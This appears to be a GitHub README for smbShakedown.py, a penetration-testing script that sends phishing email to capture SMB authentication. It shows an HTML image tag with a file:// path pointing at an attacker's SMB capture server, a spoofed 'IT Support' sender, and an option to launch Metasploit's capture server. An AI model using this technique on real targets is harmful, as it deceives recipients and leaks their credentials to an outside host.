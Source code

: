#smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Usage
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

#Example
        
        Enter SMTP Server address[smtp.gmail.com]: 
        ENTERED: "smtp.gmail.com"

        Enter your SMTP Server Port[587]: 
        ENTERED: "587"

        Enter SMTP Server username[user@gmail.com]: 
        ENTERED: "user@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.37.242.7]: 
        ENTERED:10.37.242.7

        Enter "from name":[IT Support]
        ENTERED:IT Support
        
        Enter "from address":[user@gmail.com]:user@gmail.com
        ENTERED:user@gmail.com
        
        Enter recipient(s) name[Bob]: Bob
        ENTERED:Bob
        
        etc..

#To do:
    Multiple recipient address support.
    SMTP Anonymous Auth option
    Add error handling.

